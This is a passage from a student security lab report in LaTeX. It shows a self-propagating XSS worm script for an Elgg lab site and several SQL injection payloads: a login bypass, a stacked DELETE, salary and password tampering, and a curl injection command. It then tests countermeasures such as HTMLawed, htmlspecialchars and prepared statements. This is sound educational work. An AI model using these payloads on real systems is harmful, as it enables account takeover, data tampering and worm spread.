    
\includegraphics[width=0.4\textwidth]{figures/task10/task10.9.png}
    }
    \hfill
  \subfloat[addfriend script in Boby's Profile\label{fig:task10.10}]{
    
\includegraphics[width=0.4\textwidth]{figures/task10/task10.10.png}
    }
    \hfill
    \caption{XSS Modifying by DOM Approach}\label{fig:task10-4}
\end{figure}
After that, Charlie visit Boby's Profile, the XSS add friend also executed, as shown in Figure \ref{fig:task10.11} and the result shown in Figure \ref{fig:task10.12}.
\begin{figure}[h]
    \centering
  \subfloat[visit Boby will perform the Add Friend\label{fig:task10.11}]{
    
\includegraphics[width=0.4\textwidth]{figures/task10/task10.11.png}
    }
    \hfill
  \subfloat[addfriend Result\label{fig:task10.12}]{
    
\includegraphics[width=0.4\textwidth]{figures/task10/task10.12.png}
    }
    \hfill
    \caption{Result by DOM Approach}\label{fig:task10-5}
\end{figure}

\begin{lstlisting}[caption={DOM Approach},label={lst:task12},language=HTML,breaklines=true]
<script type="text/javascript">
window.onload = function(){
var userName=elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var name="&name"+userName;
var accesslevel="&accesslevel[description]="+"2";
var headerTag="<script id=\"worm\" type=\"text/javascript\">";
var tailTag="</" + "script>";
var jsCode='window.onload = function () {var Ajax=null;var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;var token="&__elgg_token="+elgg.security.token.__elgg_token;var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47"+ts+token;Ajax=new XMLHttpRequest();Ajax.open("GET",sendurl,true);Ajax.setRequestHeader("Host","www.xsslabelgg.com");Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");Ajax.send();}'
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
var propagatescript="&description="+wormCode;
var content=ts+token+name+guid+propagatescript+accesslevel;
var samyGuid=47;
var sendurl='http://www.xsslabelgg.com/action/profile/edit';
 if(elgg.session.user.guid!=samyGuid){
 var Ajax=null;
 Ajax=new XMLHttpRequest();
 Ajax.open("POST",sendurl,true);
 Ajax.setRequestHeader("Host","www.xsslabelgg.com");
 Ajax.setRequestHeader("Content-Type",
 "application/x-www-form-urlencoded");
 Ajax.send(content);
 }
}
</script>
\end{lstlisting}

\subsection{Countermeasures XSS}

\textbf{1. Activating only the HTMLawed countermeasure as shown in Figure \ref{fig:task12.1}}

\textbf{Observations:}

Upon activating only the HTMLawed plugin and visiting the victim profiles, it was observed that the user-generated content that previously contained malicious scripts no longer executed those scripts. The HTMLawed plugin effectively sanitized the input fields by removing or escaping HTML tags that could be used for scripting. As a result, any attempt to perform an XSS attack by injecting script tags or other HTML elements that could contain JavaScript was thwarted. The profiles displayed user input as plain text, or with only the allowed HTML tags, thereby preventing any embedded JavaScript from running, as shown in Figure \ref{fig:task12-1}.

\textbf{2. Turning on both the HTMLawed countermeasure and htmlspecialchars:}

\textbf{Observations:}

With both the HTMLawed plugin and the htmlspecialchars PHP function enabled, the security measures were strengthened. Visiting the victim profiles after enabling both countermeasures revealed that the application was now encoding special HTML characters into their corresponding HTML entities. Characters such as \verb|<|, \verb|>|, \verb|&|, \verb|'|, and \verb|"| were converted to \verb|&lt;|, \verb|&gt;|, \verb|&amp;|, \verb|&apos;|, and \verb|&quot;|, respectively, as shown in Figure \ref{fig:task12.4}. This encoding further prevented the execution of any potentially harmful scripts that could have been missed by the HTMLawed plugin alone. The profiles were rendered with even greater safety, ensuring that all user input was displayed without any active scripts or HTML elements that could present a security risk.

\begin{figure}[h]
    \centering
       
\includegraphics[width=0.5\textwidth]{figures/task12/task12.1.png}
    \caption{Enable HTMLawed}\label{fig:task12.1}
\end{figure}

\begin{figure}[h]
    \centering
  \subfloat[visit Boby will perform the Add Friend\label{fig:task12.2}]{
    
\includegraphics[width=0.4\textwidth]{figures/task12/task12.2.png}
    }
    \hfill
  \subfloat[addfriend Result\label{fig:task12.3}]{
    
\includegraphics[width=0.45\textwidth]{figures/task12/task12.3.png}
    }
    \hfill
    \caption{Result of enabling HTMLawed}\label{fig:task12-1}
\end{figure}


\begin{figure}[h]
    \centering
       
\includegraphics[width=0.5\textwidth]{figures/task12/task12.4.png}
    \caption{Enable htmlspecialchars()}\label{fig:task12.4}
\end{figure}

\section{SQL Injection Attack}
\setcounter{subsection}{1}

\subsection{Get Familiar with SQL Statements}
We can use the following SQL statement lstlisting \ref{lst:task13} to get the information of the table, as shown in Figure \ref{fig:task13}.

\begin{lstlisting}[caption={SQL Query Statements},label={lst:task13},language=SQL,breaklines=true]
select * from credential where name='Alice';
\end{lstlisting}
\begin{figure}[h]
    \centering
       
\includegraphics[width=0.9\textwidth]{figures/task13/task13.png}
    \caption{Result}\label{fig:task13}
\end{figure}

\subsection{SQL Injection Attack on SELECT Statement}
\subsubsection{Sub-task 1: SQL Injection Attack from webpage}
First, we use the following SQL statement lstlisting \ref{lst:task14.1} to get the information, we conduct the INPUT \verb|admin' #| as shown in Figure \ref{fig:task14.1}, this will close the entire statement early and commenting out what comes after it. The result shown in \ref{fig:task14.2} indicates that the script successfully executed the SQL injection attack, bypassing the authentication mechanism and retrieving the information of the admin user. 
\begin{figure}[h]
    \centering
       
\includegraphics[width=0.4\textwidth]{figures/task14/task14.1.png}
    \caption{SQL Injection Attack from webpage}\label{fig:task14.1}
\end{figure}

\begin{lstlisting}[caption={SQL Injection},label={lst:task14.1},language=SQL,breaklines=true]
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password 
FROM credential
WHERE name='admin' #'and Password='123'
\end{lstlisting}

\begin{figure}[h]
    \centering
       
\includegraphics[width=0.6\textwidth]{figures/task14/task14.2.png}
    \caption{SQL Injection Attack from webpage Result}\label{fig:task14.2}
\end{figure}

\subsubsection{Sub-task 2: SQL Injection Attack from command line}
We can use the following command \ref{lst:task14.2} to get the information, as shown in Figure \ref{fig:task14.3}.
\begin{lstlisting}[caption={SQL Injection Command},label={lst:task14.2},language=BASH,breaklines=true]
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=admin%27+%23&Password=123'
\end{lstlisting}
\begin{figure}[h]
    \centering
       
\includegraphics[width=0.82\textwidth]{figures/task14/task14.3.png}
    \caption{SQL Injection Attack from command line Result}\label{fig:task14.3}
\end{figure}

\subsubsection{Sub-task 3: Append a new SQL statement}

I try to use this statement as username \verb|admin';delete from credential WHERE name='Ted' #|, because it will conduct to a SQL query as shown in Listing \ref{lst:task14.3}, the result is shown in Figure \ref{fig:task14.4}, which indicates that the script cannot delete the record, because the php code \verb|$result = $conn -> query($sql);| will only execute the first \verb|SELECT| SQL query.

\begin{lstlisting}[caption={SQL Injection for delete Record},label={lst:task14.3},language=SQL,breaklines=true]
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password 
FROM credential
WHERE name='admin';delete from credential WHERE name='Ted' #'and Password='123'
\end{lstlisting}
\begin{figure}[h]
    \centering
       
\includegraphics[width=0.82\textwidth]{figures/task14/task14.4.png}
    \caption{SQL Append Attack Result}\label{fig:task14.4}
\end{figure}

\subsection{SQL Injection Attack on UPDATE Statement}
\subsubsection{Sub-task 1: Modify your own salary}
As shown in Figure \ref{fig:task15.1}, we can use the following SQL Injection \verb|A', Salary='33333| shown in \ref{fig:task15.2} to modify the salary of the user, beacuse the UPDATE SQL Query will become 

\verb|UPDATE credential SET nickname='A', Salary='33333',...|, 

the result is shown in Figure \ref{fig:task15.3}, which indicates that the script successfully executed the SQL injection attack, modifying the salary of the user to the specified value.
\begin{figure}[h]
    \centering
  \subfloat[Original Profile\label{fig:task15.1}]{
    
\includegraphics[width=0.3\textwidth]{figures/task15/task15.1.png}
    }
    \hfill
  \subfloat[SQL Injection\label{fig:task15.2}]{
    \includegraphics[width=0.3\textwidth]{figures/task15/task15.2.png}
    }
    \hfill
    \subfloat[Result\label{fig:task15.3}]{
    \includegraphics[width=0.3\textwidth]{figures/task15/task15.3.png}
    }
    \hfill
    \caption{SQL Injection Attack on UPDATE 1}\label{fig:task15-1}
\end{figure}

\subsubsection{Sub-task 2: Modify other people’ salary}

As shown in Figure \ref{fig:task15.4}, we can use the following SQL Injection \verb|A', Salary=1 where name='Boby' #| shown in \ref{fig:task15.5} to modify the salary of the user, beacuse the UPDATE SQL Query will become 

\verb|UPDATE credential SET nickname='A', Salary=1 where name='Boby' #|, 

the result is shown in Figure \ref{fig:task15.6}, which indicates that the script successfully executed the SQL injection attack, modifying the salary of the user to the specified value.


\begin{figure}[h]
    \centering
  \subfloat[Original Profile\label{fig:task15.4}]{
    \includegraphics[width=0.3\textwidth]{figures/task15/task15.4.png}
    }
    \hfill
  \subfloat[SQL Injection\label{fig:task15.5}]{
    \includegraphics[width=0.3\textwidth]{figures/task15/task15.5.png}
    }
    \hfill
    \subfloat[Result\label{fig:task15.6}]{
    \includegraphics[width=0.3\textwidth]{figures/task15/task15.6.png}
    }
    \hfill
    \caption{SQL Injection Attack on UPDATE 2}\label{fig:task15-2}
\end{figure}

\subsubsection{Modify other people’ password}
As shown in Figure \ref{fig:task15.7}, we can use the following SQL Injection 

\verb|B', Password=SHA1('huangkl') where name='Boby' #| 

shown in \ref{fig:task15.8} to modify the salary of the user, beacuse the UPDATE SQL Query will become 

\verb|UPDATE credential SET nickname='B', Password=SHA1('huangkl') where name='Boby' #|, 

the result is shown in Figure \ref{fig:task15.9}, which indicates that the script successfully executed the SQL injection attack, modifying the salary of the user to the specified value.


\begin{figure}[h]
    \centering
  \subfloat[SQL Injection\label{fig:task15.7}]{
    \includegraphics[width=0.3\textwidth]{figures/task15/task15.7.png}
    }
    \hfill
  \subfloat[Boby Login with Set Password\label{fig:task15.8}]{
    \includegraphics[width=0.3\textwidth]{figures/task15/task15.8.png}
    }
    \hfill
    \subfloat[Result\label{fig:task15.9}]{
    \includegraphics[width=0.3\textwidth]{figures/task15/task15.9.png}
    }
    \hfill
    \caption{SQL Injection Attack on UPDATE 3}\label{fig:task15-3}
\end{figure}

\subsection{SQL Countermeasure — Prepared Statement}
We introduce the safe method to prevent the SQL Injection, as shown in Figure \ref{fig:task16.1}, the result is shown in Figure \ref{fig:task16.2}, which indicates that the script cannot execute the SQL Injection attack, because the server will verify the input and prevent the SQL Injection attack.
\begin{figure}[h]
    \centering
       \includegraphics[width=0.9\textwidth]{figures/task16/task16.1.png}
    \caption{Safe SQL SELECT Query}\label{fig:task16.1}
\end{figure}

\begin{figure}[h]
    \centering
       \includegraphics[width=0.6\textwidth]{figures/task16/task16.2.png}
    \caption{SQL Injection Not Work}\label{fig:task16.2}
\end{figure}

Also that the safe method can be used in the UPDATE SQL Query, as shown in Figure \ref{fig:task16.4}, the result is shown in Figure \ref{fig:task16.3}, which indicates that the script cannot execute the SQL Injection attack, because the server will verify the input and prevent the SQL Injection attack.
\begin{figure}[h]
    \centering
       \includegraphics[width=0.5\textwidth]{figures/task16/task16.3.png}
    \caption{SQL Injection Not Work}\label{fig:task16.3}
\end{figure}
\begin{figure}[h!]
    \centering
       \includegraphics[width=0.95\textwidth]{figures/task16/task16.4.png}
    \caption{Safe SQL UPDATE Query}\label{fig:task16.4}
\end{figure}
%------------------------------------------------

%\bibliographystyle{ieeetr}
%\bibliography{references} % citation records are in the references.bib document

\end{document}
